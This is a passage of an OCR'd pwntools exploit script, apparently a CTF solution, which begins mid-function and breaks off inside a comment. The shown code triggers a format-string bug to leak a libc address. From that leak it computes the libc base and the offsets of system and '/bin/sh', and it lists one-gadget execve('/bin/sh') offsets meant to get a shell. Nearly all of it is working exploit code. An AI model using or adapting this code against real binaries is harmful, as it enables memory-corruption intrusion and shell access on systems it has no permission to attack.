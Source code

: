     r.sendlineafter(">","2")

def edit(idx, p):
    r.sendlineafter(">","3")
    r.sendlineafter("?",str(idx))
    r.sendlineafter("?",str(p))

def exploit(r):
    # attach(r)
    # 74
    off = "%313$p" # malloc_135
    off = "%653$p"

    atoi_got = 0x000000602048

    offset___libc_start_main_ret = 0x20830
    offset_system = 0x0000000000045390
    offset_dup2 = 0x00000000000f7970
    offset_read = 0x00000000000f7250
    offset_write = 0x00000000000f72b0
    offset_str_bin_sh = 0x18cd57


    # malloc 0x7ffff7df0537
    # triggering format string
    add(1)
    add(1)
    add(1)
    edit(1 , "AAAAAAAA" + off)
    r.recvuntil("AAAAAAAA")
    leak_libc_start_main_231 = int(r.recv(14),16)

    libc_base = (leak_libc_start_main_231) - offset___libc_start_main_ret
    libc_system = libc_base + offset_system

    log.info("__libc_start_main+231     : " + hex(leak_libc_start_main_231))
    log.info("libc base     : " + hex(libc_base))
    log.info("system        : " + hex(libc_system))

    # 0x45216 execve("/bin/sh", rsp+0x30, environ)
    # constraints:
    #   rax == NULL
    #
    # 0x4526a execve("/bin/sh", rsp+0x30, environ)
    # constraints:
    #   [rsp+0x30] == NULL
    #
    # 0xf02a4 execve("/bin/sh", rsp+0x50, environ)